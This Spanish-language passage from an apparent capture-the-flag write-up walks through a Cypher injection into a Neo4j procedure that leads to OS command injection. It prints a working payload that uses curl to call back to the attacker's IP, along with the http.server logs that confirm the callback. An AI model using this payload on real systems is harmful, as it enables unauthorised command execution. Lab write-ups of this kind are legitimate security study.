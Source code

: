 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En esta inyección de Cypher, lo que estamos haciendo es aprovechar una vulnerabilidad de `Command Injection` en el procedimiento `custom.getUrlStatusCode` que vimos anteriormente. Este procedimiento es vulnerable porque permite ejecutar comandos del sistema operativo, específicamente usando `curl` para obtener el código de estado HTTP de una URL. Debido a la falta de saneamiento en la entrada de la URL, podemos inyectar comandos maliciosos.

* `google.com;curl 10.10.16.37/gzzcoo;#`:
  * `google.com`: Es la URL original que pasa como parámetro al procedimiento.
  * `;`: Este es un delimitador de comandos en bash (sistema operativo tipo Unix). Lo que hace es permitir la ejecución de comandos adicionales.
  * `curl 10.10.16.37/gzzcoo`: Después del `;`, se inyecta el comando `curl`, que hace una solicitud HTTP a nuestra máquina atacante (en la IP `10.10.16.37`) y al recurso `/gzzcoo`.
  * `#`: El `#` es un comentario en bash, lo que asegura que cualquier texto después de este símbolo no sea ejecutado como código, evitando que la URL sea modificada en el proceso.
* **Llamada al procedimiento vulnerable**:
  * `CALL custom.getUrlStatusCode(...)`: Llamamos al procedimiento vulnerable `custom.getUrlStatusCode`, pasándole como parámetro la URL modificada que contiene el comando malicioso.
  * `YIELD statusCode AS a`: Este paso recoge el código de estado HTTP devuelto por `curl` para la URL original (en este caso, `google.com`), aunque la ejecución real que nos interesa es la inyección de comando.
* **Resultado final**:
  * `RETURN a;`: Se devuelve el código de estado HTTP obtenido de la URL, pero la clave es que, al ejecutar este código, también se dispara la ejecución del comando `curl` hacia nuestro servidor web. Esto permite que nuestro servidor reciba una solicitud GET a `/gzzcoo`.

```cypher
' return h.value as a UNION CALL custom.getUrlStatusCode(\"google.com;curl 10.10.16.37/gzzcoo;#\") YIELD statusCode AS a RETURN a;//
```

<figure><img src="../../.gitbook/assets/imagen (472).png" alt=""><figcaption></figcaption></figure>

Al realizar la inyección de Cypher, con el comando `curl` apuntando a nuestro servidor, verificamos en los logs de nuestro servidor web que efectivamente se hizo una solicitud `GET` desde el servidor vulnerable hacia el recurso `/gzzcoo` que no existía, lo que confirmamos con el siguiente mensaje:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:52:17] code 404, message File not found
10.129.111.76 - - [04/Mar/2025 17:52:17] "GET /gzzcoo HTTP/1.1" 404 -
```
